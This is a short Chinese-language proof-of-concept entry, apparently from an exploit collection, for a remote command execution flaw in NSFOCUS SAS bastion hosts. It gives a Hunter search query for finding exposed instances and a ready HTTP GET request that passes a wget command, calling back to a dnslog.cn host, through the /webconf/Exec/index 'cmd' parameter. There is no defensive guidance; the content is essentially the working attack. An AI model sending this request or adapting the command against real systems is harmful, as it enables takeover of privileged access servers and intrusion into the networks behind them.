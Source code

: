 # 绿盟 SAS堡垒机 Exec 远程命令执行漏洞

# 一、漏洞执行
绿盟 SAS堡垒机 Exec 远程命令执行漏洞，攻击者可通过该漏洞获取服务器控制权限。

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 绿盟SAS堡垒机

# 三、资产测绘
+ hunter`app.name="NSFOCUS 绿盟 SAS"`

![1692345776559-f5624e5a-4bb4-49a1-891a-79dd9dc6ddce.png](./img/mv6562pcTMScguT0/1692345776559-f5624e5a-4bb4-49a1-891a-79dd9dc6ddce-397151.png)

+ 登录页面

![1692345819090-b23ee8fd-4a29-497b-a62a-e7957b5cfd88.png](./img/mv6562pcTMScguT0/1692345819090-b23ee8fd-4a29-497b-a62a-e7957b5cfd88-049882.png)

# 四、漏洞复现
```plain
GET /webconf/Exec/index?cmd=wget%200nicnk.dnslog.cn HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
```

![1699631390274-e13e84c5-8436-4db2-ac80-05982c2a23f9.png](./img/mv6562pcTMScguT0/1699631390274-e13e84c5-8436-4db2-ac80-05982c2a23f9-483338.png)

![1699631405537-551fadb6-953b-4d16-af40-dbafadbb5587.png](./img/mv6562pcTMScguT0/1699631405537-551fadb6-953b-4d16-af40-dbafadbb5587-876996.png)



> 更新: 2024-02-29 23:57:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yxzz8e5biz6qbl41>